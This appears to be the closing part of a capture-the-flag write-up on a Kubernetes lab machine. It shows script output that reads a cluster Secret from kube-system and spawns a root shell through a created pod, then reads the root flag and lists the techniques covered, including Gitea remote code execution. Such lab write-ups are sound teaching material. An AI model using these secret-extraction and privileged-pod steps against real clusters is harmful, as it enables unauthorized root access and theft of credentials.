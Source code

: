 ```
[...]
----------Part 4: Extracting Name----------
Which name you want? E.g. flag3
flag3
Which namespace you want? E.g. kube-system
kube-system
apiVersion: v1
data:
  flag3.txt: {Redacted}
kind: Secret
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"v1","kind":"Secret","metadata":{"annotations":{},"name":"flag3","namespace":"kube-system"},"stringData":{"flag3.txt":"flag{Redacted}"},"type":"Opaque"}
[...]
type: Opaque
----------Part 5: Spawning a Root Shell(Optional)----------
Do you need to spawn a root shell? Y/N
Y
Creating pod.yaml...
pod/pod created
----------Spawning a Root Shell :D----------
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
bash-4.4# whoami;hostname;id;ip a
root
pod
uid=0(root) gid=0(root) groups=1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[...]
3: eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 8951 qdisc noqueue state UP 
    link/ether e6:cb:c8:59:b9:7e brd ff:ff:ff:ff:ff:ff
    inet 10.42.0.15/24 brd 10.42.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::e4cb:c8ff:fe59:b97e/64 scope link 
       valid_lft forever preferred_lft forever
```

# Rooted

**root.txt:**
```
bash-4.4# cat /pod/root/root.txt
flag{Redacted}
```

# Conclusion

What we've learned:

1. Cracking Protected Password in PDF
2. Gitea Authenticated Remote Code Execution
3. Enumerating Kubernetes
4. Privilege Escalation via Exploiting Kubernetes